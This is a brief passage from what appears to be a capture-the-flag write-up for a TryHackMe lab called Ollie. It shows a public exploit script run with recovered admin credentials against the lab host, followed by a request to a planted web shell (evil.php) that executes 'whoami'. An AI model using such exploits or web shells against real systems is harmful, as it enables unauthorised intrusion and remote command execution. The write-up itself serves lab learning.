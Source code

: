 ![image.png](/assets/images/Ollie_THM/image%207.png)

After successful authentication lets now run our exploit with the credentials.

```bash
python3 50963.py -url http://ollieshouse.thm/ -usr 'admin' -pwd 'OllieUnixMontgomery!'
```

![image.png](/assets/images/Ollie_THM/image%208.png)

Now visiting [http://ollieshouse.thm/evil.php?cmd=whoami](http://ollieshouse.thm/evil.php?cmd=whoami) 

![image.png](/assets/images/Ollie_THM/image%209.png)
